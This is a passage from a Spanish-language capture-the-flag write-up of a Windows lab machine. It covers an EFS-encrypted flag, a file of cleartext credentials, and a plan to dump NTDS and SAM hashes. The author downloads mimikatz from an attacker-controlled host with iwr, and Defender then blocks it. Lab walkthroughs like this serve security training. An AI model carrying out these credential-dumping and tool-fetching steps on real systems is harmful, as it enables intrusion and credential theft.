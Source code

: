 La primera flag está encriptada y solo la puede leer tolu

```null
PS C:\Users\tolu\Desktop> cipher /c user.txt     

 Listing C:\Users\tolu\Desktop\
 New files added to this directory will not be encrypted.

E user.txt
  Compatibility Level:
    Windows XP/Server 2003

  Users who can decrypt:
    HELPLINE\tolu [tolu(tolu@HELPLINE)]
    Certificate thumbprint: 91EF 5D08 D1F7 C60A A0E4 CEE7 3E05 0639 A669 2F29 

  No recovery certificate found.

  Key information cannot be retrieved.

The specified file could not be decrypted.
```

En el directorio C:\Temp, hay un fichero con credenciales en texto claro, me puedo conectar, pero es un Rabbit Hole que no lleva a ningún lado

```null
PS C:\Temp\Password Audit> type .\it_logins.txt

local Windows account created 

username: alice
password: $sys4ops@megabank!
admin required: no

shadow admin accounts:

mike_adm:Password1 
dr_acc:dr_acc
```

Puedo tratar de dumpear el NTDS y dumpear la SAM para obtener los hashes NTLM de los usuarios. Me transfiero el mimikatz a la máquina víctima

```null
PS C:\Temp> iwr -uri http://10.10.14.10/mimikatz.exe -o mimikatz.exe
```

Si trato de ejecutarlo, el Defender lo bloquea

```null
PS C:\Windows\Temp> .\mimikatz.exe
Program 'mimikatz.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1 
+ .\mimikatz.exe
+ ~~~~~~~~~~~~~~.
At line:1 char:1
+ .\mimikatz.exe
+ ~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```
